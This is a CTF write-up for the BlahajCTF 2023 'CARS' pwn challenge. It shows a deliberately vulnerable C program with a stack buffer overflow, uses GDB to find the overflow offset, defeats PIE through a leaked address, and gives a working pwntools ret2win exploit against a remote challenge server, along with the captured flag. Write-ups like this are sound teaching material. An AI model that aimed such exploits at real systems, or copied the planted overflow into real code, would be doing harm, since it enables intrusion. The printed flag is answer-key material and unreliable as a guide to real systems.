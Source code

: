 ```yaml
---
title: CARS
date: 2023-12-05
tags: 
- pwn
- author-fs
categories: BlahajCTF 2023
---
```


solved by {% person fs %}

> **"**I've been playing around with this reporting system for "cyber affairs", generating ticket after ticket in hopes of breaking it. I have a feeling that there's a way to access the admin panel...**"**

## Overview

PIE + NX bypass (ROP) + ret2win

## Exploit review

I had access to the CARS binary. When runing checksec on the binary, I had obtained the following information...

```sh
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Seeing that NX is enabled, I knew that I could not just directly inject shellcode into this program and PIE being enabled suggested that the program's base address is randomised. To bypass these restrictions, the source code had to be looked at.

```c
#include <stdio.h>
#include <stdlib.h>

// Compiled using gcc -o cars -g -fno-stack-protector cars.c

unsigned long report_number = 0;

void setup()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28];
    printf("Please input your student ID: ");
    fgets(input, 28, stdin);
    printf("Please describe the incident: ");
    fgets(input, 256, stdin);
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xb1adee); // this random seed is sooo drain
    report_number = rand();
    printf("Welcome to the Cyber Affairs Reporting System (CARS)\n");
    printf("Report number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

Paying close attention to the main() function, I had observed that a variable named `report_number` that's being generated from a constant seed `0xb1adee` and it's address (&) being printed out in the long format (%l). Reversing this binary in ghidra gave me the offset of `report number` from the start of the binary file, which is 

```
0x104090 - 0x100000 = 0x4090
```

To calculate program's base address, I had captured the address of `report_number` printed out in the long format, converted it to hex and subtracted 0x4090 from it. I then set the binary ELF's address to this calculated base address. PIE has been bypassed

Looking at the source code, I had noticed that there is a function conveniently planted there named `admin()` that if called, prints out the flag. But this function is not called by any other function in the program. 

Looking at file_report() immediately called after the printf() statements, I saw that 2 fgets() functions are called and the second of which allows the user to write in 256 bytes of data into the `input` variable that can only hold 28 bytes. This buffer overflow can be exploited to overwrite RIP with admin()'s return address.

Firing up GDB, I used the command 

``` sh
pattern create 400
```
and inputted the generated result into the second fgets() function as discussed earlier. This caused a seg fault that I had used to look up registers. One particular register of interest is RBP and in a x64 stack layout, RBP is right next to the return address of the stack frame which is what I had wanted to control. In the GDB result after the seg fault, I had seen that RBP is overwritten with the generated pattern.

``` sh
$rax   : 0x42              
$rbx   : 0x00007fffffffe2f8  →  0x00007fffffffe5bb  →  "/home/xor8ex/blahaj/cars"
$rcx   : 0x00007ffff7ebfb00  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe1d8  →  "faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala[...]"
$rbp   : 0x6161616161616165 ("eaaaaaaa"?)
$rsi   : 0x00007ffff7f9c803  →  0xf9da30000000000a ("\n"?)
$rdi   : 0x00007ffff7f9da30  →  0x0000000000000000
$rip   : 0x000055555555528d  →  <file_report+113> ret 
$r8    : 0xfe              
$r9    : 0x0               
$r10   : 0x00007ffff7dd10b8  →  0x00100022000048a8
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffe308  →  0x00007fffffffe5d4  →  "XDG_CURRENT_DESKTOP=GNOME"
$r14   : 0x0000555555557dd8  →  0x0000555555555180  →   endbr64 
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000555555554000  →   j
```

I had then used the simple command 

``` sh
pattern search $rbp
```

to find the offset of RBP. I had then +8 to the offset to find out the offset to the return address since RBP is 8 bytes long. In this case, I had found that the offset to the return address is 40. I then simply constructed a buffer overflow consisting of a payload of 40 bytes + admin()'s func address.

## Exploit

- Capture the address of **report_number** displayed in long format and convert it to hex value
- Subtract 0x4090 from the calculated hex value to obtain program's base address and set it using pwntools 'elf.address=[BASE ADDRESS]'
- Constrcut a payload consisting of 40 bytes + 8 bytes of our desired return address ([BASE ADDRESS] +elf.sym['admin']) | ROP
- Send the payload to the second fgets() in file_report()

## Exploit Code

``` python
import time
from pwn import *

context(os='linux',arch='amd64')
p=remote("139.59.224.179","30002")
#p=process("./cars")
elf=ELF('./cars')

context.log_level='DEBUG'
output=p.recvuntil("Please")
leaked_address=hex(int(output[-21:-7]))

log.info(leaked_address)

base_address=(int(leaked_address,16)-int("0x4090",16))
log.info(hex((base_address)))

elf.address=base_address

payload=b"A"*40+p64(elf.sym['admin']+1) # When setting p to remote, you have to +1 to elf.sym['admin'] due to MOVAPS issue or else the exploit just fails lmao
#payload=b"A"*40+p64(elf.sym['admin'])
p.sendlineafter("ID: ","")
p.sendlineafter("incident: ",payload)
time.sleep(1)
p.interactive()
```

Running this code, I got the flag 

```
blahaj{r0pp1n6_w17h_p13}
```